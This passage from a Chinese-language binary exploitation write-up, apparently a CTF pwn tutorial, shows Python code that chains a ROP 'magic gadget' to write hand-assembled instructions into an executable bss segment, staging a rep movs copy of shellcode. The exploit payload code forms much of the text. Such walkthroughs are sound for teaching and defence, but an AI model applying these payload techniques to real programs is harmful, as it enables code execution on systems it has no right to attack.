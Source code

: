 ![](/upload/img/2706180-20220426103623192-486607434.png)



那我们现在要立刻造出来pop_rbx_pop_rbp_ret这个指令，因为我们接下来还要用几次magic_gadget，但是不能每次使用都执行一次csu片段吧，这样的话肯定最后的payload会超长。造这个指令很简单，因为bss段已经可执行（**就是我们往bss段写的内容都可以被当做指令来用**），有什么好说的，直接把需要造的指令对应机器码写到bss段上（上文已经提过利用magic_gadget往bss段写入数据了）

这个网站可以在线汇编指令转机器码   [here]([Online x86 and x64 Intel Instruction Assembler (defuse.ca)](https://defuse.ca/online-x86-assembler.htm#disassembly))

```python
#往bss_addr+0x10写入pop rbx;pop rbp;pop rcx;ret
#5B5D59C3为pop rbx;pop rbp;pop rcx;ret的机器码，由于p64()打包会将数据进行小端序处理，因此我们需要提前手动小端序处理一次，以来确保指令是正常顺序存入bss段的
payload+='a'*8+p64(0xc3595d5b)+p64(bss_addr+0x10+0x3d)
payload+=32*'a'
payload+=p64(magic_gadget_addr)
```

此时我们再执行magic_gadget就可以直接用bss_addr+0x10中存放的pop rbx;pop rbp;pop rcx;ret（至于为什么还要pop rcx，因为这样会更省字节，后面就不用专门造一个pop rcx;ret指令了）

接着我们需要再造两个指令，分别是:

```assembly
rep movs qword ptr [rdi],qword ptr[rsi] ; ret #F348A5C3 
mov rsi,rsp;ret #4889E6C3
```

第一个很好理解，是负责拷贝的rep，可是为什么要用第二个指令呢？考虑一下我们使用rep的时候怎么去控制这个rsi,我们本来是控制不了，并且我们还需要这个rsi指向当前栈顶的内容（因为rep指令下面就是shellcode了），因此才需要造一个这个gadget出来。

```python
#往bss_addr写入 rep movs qword ptr [rdi],qword ptr[rsi] ; ret

payload+=p64(bss_addr+0x10)
#现在bss_addr+0x10就相当于pop rbx;pop rbp;pop rcx;ret这个指令了
payload+=p64(0xc3a548f3)+p64(bss_addr+0x3d)+p64(0)
payload+=p64(magic_gadget_addr)


#往bss段+0x8写入mov rsi,rsp;ret
payload+=p64(bss_addr+0x10)
payload+=p64(0xc3e68948)+p64(bss_addr+0x8+0x3d)+p64(15)
payload+=p64(magic_gadget_addr)
```
